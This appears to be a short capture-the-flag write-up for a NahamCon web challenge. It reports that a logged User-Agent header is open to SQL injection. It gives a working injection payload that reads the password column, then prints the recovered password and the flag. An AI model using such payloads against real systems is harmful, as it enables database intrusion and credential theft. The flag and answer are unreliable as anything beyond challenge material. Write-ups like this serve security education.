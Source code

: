 <p align="center">
    <img alt="Follow" src="https://img.shields.io/github/followers/EffectRenan?style=social">
    <img alt="Tweet" src="https://img.shields.io/twitter/follow/EffectRenan?label=Follow&style=social">
</p>

**Challenge**:  ...

http://challenge.nahamcon.com:31996/profile shows the log based on a post, user and User-Agent.

User-Agent is vulnerable to SQL injection.

Payload: `' || (SELECT password FROM user));-- -`

User's password: `J3H8cqMNWxH68mTj`

**Flag**: flag{8b31eecb1831ed594fa27ef5b431fe34}
